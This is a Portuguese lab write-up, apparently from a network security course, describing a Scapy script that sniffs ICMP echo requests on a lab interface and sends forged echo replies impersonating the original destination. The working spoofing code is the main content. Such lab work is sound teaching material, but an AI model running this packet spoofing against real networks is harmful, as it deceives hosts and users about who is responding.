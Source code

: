 ## 1.4 Sniffing and-then Spoofing

Na última task, criamos um programa para fazer sniffing e spoofing em conjunto. Essencialmente, capturamos packets que estão a ser enviados para outros endereços (sniffing) e respondemos a esses packets, fazendo-nos passar pelo destinatário original (spoofing).

Começamos por criar o programa abaixo, baseando-nos nas tasks anteriores. 

Primeiro, usamos o comando sniff para capturar os packets que queremos, nomeadamente `ICMP`

De seguida, verificamos se o packet é do tipo `ICMP` (ou seja, tipo 8). Se for, prosseguimos e criamos um `IP`, ao qual associamos a origem e o destino contrários ao do packet.

Criamos também um `ICMP`, ao qual associamos os seguintes valores:

- `b.type = 0` - 0 é o tipo do echo reply
- `b.id = p[ICMP].id` - o mesmo id do packet original, de maneira a associar o echo reply ao echo request
- `b.seq = p[ICMP].seq` - a mesma seq do packet original, de maneira a associar o echo reply ao echo request
- `load = p[Raw].load` - extrai o payload do packet original, ou seja, os dados da mensagem enviada pelo emissor original

Por último, concatenamos os três protocolos e enviamos o packet resultante.

```python
from scapy.all import*

def sniff_and_then_spoof(p):
    if p[ICMP].type != 8:
        return
    
    a = IP()
    a.src = p[IP].dst  # destino do packet é a origem de a
    a.dst = p[IP].src  # origem do packet é o destino de a

    b = ICMP()
    b.type = 0  # echo reply
    b.id = p[ICMP].id
    b.seq = p[ICMP].seq
    load = p[Raw].load

    send(a / b / load)

p = sniff(iface='br-15d9ab541510', filter='icmp', prn=sniff_and_then_spoof)
```

O primeiro endereço que usamos para dar `ping` foi o `1.2.3.4`. Pudemos verificar que o nosso sniff and then spoof funcionou
